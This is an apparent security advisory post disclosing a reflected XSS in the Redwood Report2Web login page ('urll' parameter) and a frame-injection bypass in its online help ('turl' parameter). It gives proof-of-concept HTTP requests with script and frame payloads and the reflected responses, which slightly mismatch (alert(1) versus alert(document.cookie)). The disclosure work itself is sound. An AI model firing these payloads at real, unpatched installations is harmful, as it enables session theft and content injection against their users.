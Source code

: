 ```yaml
---
layout: post
title: Redwood Report2Web XSS and Frame injection
categories: cve
---
```


[Report2Web](https://www.redwood.com/report-distribution) v4.3.4.5 and v4.5.3 are vulnerable to XSS. v4.3.4.5 is also vulnerable to frame injection. Both issues are fixed in v4.6.0.

## Report2Web Login Panel XSS
The value of the `urll` parameter is getting reflected without an sanitization, allowing a remote attacker to inject javascript code to the victim's browser.

Request:
```
GET /r2w/singIn.do?urll=%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=F291E04B316ED2DF72623ACEA8D952CA; r2wctg=3
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Response:
```
...
<form name="form" action="signIn.do" method="post" onsubmit="return handleSubmit(this);">
 <input type="hidden" name="id" value="" />
 <input type="hidden" name="language" value="en" />
 <input type="hidden" name="urll" value=""><script>alert(1)</script>" />
 
<div class="outer">
...
```

## Report2Web Online Help Frame Injection
The `turl` parameter takes a local path as input and diplays it's content inside a frame, e.g. `?turl=/local/path/doc.html`. You can bypass the protection by using `\/hostname.tld` which the browser translates to `//hostname.tld` and then to `https://example.com`, loading a malicious website inside the frame, leading to vulnerabilities like content injection and XSS.

Request:
```
GET /r2w/help/Online_Help/NetHelp/default.htm?turl=\/example.com HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

Response:
```
...
<frame id="right" name="right" title="Topic text" src="\/example.com">
...
```